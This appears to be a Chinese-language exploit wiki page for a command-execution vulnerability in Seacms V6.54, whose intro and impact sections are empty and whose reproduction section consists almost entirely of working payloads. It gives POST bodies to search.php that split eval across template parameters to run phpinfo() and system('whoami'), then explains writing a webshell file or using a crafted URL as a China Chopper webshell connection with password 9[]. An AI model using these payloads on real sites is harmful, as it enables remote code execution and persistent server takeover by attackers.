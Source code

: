 ```yaml
---
title: Seacms V6.54
id: zhfly3115
---
```


# Seacms V6.54 命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 命令执行payload

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo(); 
```

* * *

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami"); 
```

> 权限足够的话，`file_put_concents(“connect.php”,”“)`，然后连接菜刀即可

> 权限不足的话，利用payload构造url：

```
http://0-sec.org/search.php?searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9])) 
```

> 连接放入菜刀，密码是 9[]